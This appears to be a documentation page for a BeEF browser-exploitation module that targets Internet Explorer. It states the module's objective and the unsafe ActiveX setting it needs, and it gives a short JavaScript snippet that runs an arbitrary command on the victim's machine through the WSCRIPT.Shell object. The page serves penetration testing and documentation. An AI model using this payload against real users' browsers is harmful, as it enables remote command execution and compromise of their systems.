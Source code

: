 ## Summary

* **Objective**: execute arbitary commands using WSCRIPT.Shell object
* **Authors**: bcoles
* **Browsers**: IE

* [Code](https://github.com/beefproject/beef/tree/master/modules/local_host/activex_command_execution)

## Internal Working

Execute arbitrary commands using the "WSCRIPT.Shell" object. The command response is not returned to BeEF. 

The browser must have "Initialize and script ActiveX controls not marked as safe for scripting" enabled.


```js
try {
        var shell = new ActiveXObject('WSCRIPT.Shell').Run(cmd);
        if (shell.toString() == 0) {
                result = "command sent";
        } else {
                result = "command failed";
        }
}
```


## Feedback

